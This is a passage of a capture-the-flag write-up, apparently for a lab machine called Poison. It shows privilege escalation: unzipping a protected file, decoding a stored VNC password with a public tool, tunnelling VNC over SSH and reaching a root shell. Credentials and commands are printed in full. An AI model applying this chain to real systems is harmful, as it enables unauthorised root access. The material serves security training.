 Weird enough the cracked password does not work.

After running the bruteforce decided to try again the ssh-password. I had some copy-paste issues, but finally managed to get it work.

```
$ unzip secret.zip                                                                                                                                      130 ⨯
Archive:  secret.zip
[secret.zip] secret password: 
password incorrect--reenter: 
 extracting: secret                  
```

The purpose of the file is not clear

```
charix@Poison:~ % hexdump secret
0000000 a8bd 7c5b 96d5 217a                    
0000008
```

Now this is something we could combine with the finding of the process list, where a root Xvnc-desktop raises interest

```
charix@Poison:/usr % ps -auxww | grep Xvnc
root     614  0.0  0.9  23620  8868 v0- I    11:36     0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

Vnc passwords are few bytes long, and can be decoded using: https://github.com/jeroennijhof/vncpwd

Indeed, after compiling the source codes

```
$ ./vncpwd ../secret                                                                                     
Password: VNCP@$$!
```

As only the port 22 is open (and not 5901) we need to tunnel the vnc connection over ssh

```
$ ssh -L 5901:localhost:5901 charix@10.129.177.174                                                                                                                        255 ⨯
Password for charix@Poison:
```

After which we can launch on our attacking machine vncviewer. The server address is localhost:5901 as set up the tunnel, and the password is the decrypted one we got from the secret file.

```
root@Poison:~ # uname -a
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
root@Poison:~ # whoami
root
root@Poison:~ # ls -al /root/root.txt
----------  1 root  wheel  33 Jan 24  2018 /root/root.txt
root@Poison:~ # 
```
